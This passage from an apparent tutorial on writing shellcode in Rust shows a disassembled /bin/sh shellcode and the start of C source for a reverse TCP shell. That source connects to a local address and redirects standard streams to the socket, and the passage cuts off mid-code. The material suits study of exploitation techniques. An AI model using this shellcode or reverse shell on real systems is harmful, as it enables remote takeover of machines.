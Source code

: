 ```bash
  2d:   eb fe                   jmp    0x2d
# before:
# 2d:   48 83 c4 20             add    rsp,0x20
# 31:   c3                      ret
  2f:   2f                      (bad)                       # "/bin/sh\x00"
  30:   62                      (bad)
  31:   69                      .byte 0x69
  32:   6e                      outs   dx,BYTE PTR ds:[rsi]
  33:   2f                      (bad)
  34:   73 68                   jae    0x9e
  36:   00                      .byte 0x0
```

Thanks to this little trick, the compiler turned `48 83 c4 20 c3` into `eb fe`. 3 bytes saved. From 57 to 54 bytes.


Another bonus of using stack variables is that now, our shellcode doesn't need to embed a whole, mostly empty array. The array is dynamically built on the stack as if we were crafting the shellcode by hand.


```bash
$ make run_shell
$ ls
Cargo.lock  Cargo.toml  src  target
$
```

It works!


You can also force Rust to produce position-independent code by choosing the [pic relocation model](https://doc.rust-lang.org/rustc/codegen-options/index.html#relocation-model).


## Reverse TCP shellcode

Finally, let see a more advanced shellcode, to understand where a high-level language really shines.

The shellcodes above could be crafted in a few lines of assembly.

A reverse TCP shellcode establishes a TCP connection to a server, spawns a shell, and forward STDIN, STOUT, and STDERR to the TCP stream. It allows an attacker with a remote exploit to take control of a machine.

Here is what it looks like in C:

```c
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <unistd.h>

void main() {
  int sock = socket(AF_INET, SOCK_STREAM, 0);

  struct sockaddr_in sin;
  sin.sin_family = AF_INET;
  sin.sin_port = htons(8042);

  inet_pton(AF_INET, "127.0.0.1", &sin.sin_addr.s_addr);

  connect(sock, (struct sockaddr *)&sin, sizeof(struct sockaddr_in));

  dup2(sock, STDIN_FILENO);
  dup2(sock, STDOUT_FILENO);
```
